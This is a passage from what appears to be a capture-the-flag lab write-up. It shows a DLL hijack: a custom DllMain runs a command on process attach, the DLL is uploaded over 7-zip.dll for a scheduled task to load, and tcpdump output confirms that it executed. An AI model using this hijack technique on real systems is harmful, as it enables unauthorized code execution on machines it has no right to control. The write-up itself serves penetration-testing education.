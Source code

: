 After giving it a name, it'll open with `dllmain.cpp` showing. I'll add
an `include` for `stdlib.h` to get access to the `system` function, and
update the `DLL_PROCESS_ATTACH` case with my payload:



    // dllmain.cpp : Defines the entry point for the DLL application.
    #include "pch.h"
    #include <stdlib.h>

    BOOL APIENTRY DllMain( HMODULE hModule,
                           DWORD  ul_reason_for_call,
                           LPVOID lpReserved
                         )
    {
        switch (ul_reason_for_call)
        {
        case DLL_PROCESS_ATTACH:
            system("cmd.exe /c ping 10.10.14.6");
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
            break;
        }
        return TRUE;
    }



Given the complexity of what's going on, I'm going to start with a
simple `ping` to my host. I'll set the build to Release x64, and select
Build -\> Build Solution.

![](/img/image-20221110073913824.png)

It's successful.

I'll start `tcpdump` to look for ICMP packets, and upload this over
`7-zip.dll`, and wait for the next scheduled task run. It works:



    oxdf@hacky$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    12:39:57.992781 IP 10.10.11.147 > 10.10.14.6: ICMP echo request, id 3, seq 18400, length 40
    12:39:57.992824 IP 10.10.14.6 > 10.10.11.147: ICMP echo reply, id 3, seq 18400, length 40
    12:39:59.007392 IP 10.10.11.147 > 10.10.14.6: ICMP echo request, id 3, seq 18402, length 40
    12:39:59.007425 IP 10.10.14.6 > 10.10.11.147: ICMP echo reply, id 3, seq 18402, length 40
    12:40:00.039137 IP 10.10.11.147 > 10.10.14.6: ICMP echo request, id 3, seq 18404, length 40
    12:40:00.039167 IP 10.10.14.6 > 10.10.11.147: ICMP echo reply, id 3, seq 18404, length 40
    12:40:01.054422 IP 10.10.11.147 > 10.10.14.6: ICMP echo request, id 3, seq 18406, length 40
    12:40:01.054468 IP 10.10.14.6 > 10.10.11.147: ICMP echo reply, id 3, seq 18406, length 40
